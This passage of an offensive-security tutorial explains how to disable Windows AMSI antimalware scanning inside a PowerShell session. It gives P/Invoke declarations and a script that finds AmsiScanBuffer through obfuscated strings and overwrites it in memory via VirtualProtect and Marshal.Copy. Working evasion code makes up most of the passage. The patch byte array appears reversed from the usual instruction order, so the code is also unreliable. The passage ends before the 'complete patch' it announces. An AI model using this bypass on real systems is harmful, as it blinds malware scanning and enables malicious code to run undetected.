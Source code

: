 Now we know the bytecode for patching the AMSI, but we cannot patch it everytime with the help of debugger. We need some dynamic code to load it into the memory of PowerShell session to patch the AMSI. 

In order to do that, we need the value of address space for ```amsi.dll``` which is dynamically loaded and from the base address of that DLL we need to extract the address for ```AmsiScanBuffer``` and we need to write our patch bytecodes with the help of ```VirtualProtect```

Lets use ```Pinvoke``` to use Win32 APIs in PowerShell by C#,

```c
$pinvoke_obj = @"
using System;
using System.Runtime.InteropServices;

public class WinApi {
	
	[DllImport("kernel32")]
	public static extern IntPtr LoadLibrary(string name);
	
	[DllImport("kernel32")]
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	
	[DllImport("kernel32")]
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}
"@
```

Loading the pinvoke object using ```Add-Type``` and using obfuscation techniques discussed above to avoid AMSI detection before loading our patch

```c
Add-Type $pinvoke_obj
$amsiDll = [WinApi]::LoadLibrary("ams"+"i.dll")
$funcAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScanB"+"uffer")
$patch = [Byte[]](0xc3,0x80,0x07,0x00,0x57,0xb8)
$out = 0
[WinApi]::VirtualProtect($funcAddr, [uint32]$patch.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $funcAddr, $patch.Length)
[WinApi]::VirtualProtect($funcAddr, [uint32]$patch.Length, $out, [ref] $null)
```

Here we are loading our ```amsi.dll``` with ```LoadLibrary``` and getting the address of the function ```AmsiScanBuffer``` using ```GetProcAddress``` from the DLL. The patch bytecode is being stored into ```$patch```. We are using ```VirtualProtect``` to change the permission and allowing ```System.Runtime.InteropServices.Marshal``` to write our bytecodes into the memory and using VirtualProtect to reset the permissions in the memory

Now we have made our patch dynamic and portable. It can be loaded into any PowerShell memory to patch the AMSI 

The complete patch for AMSI bypass,
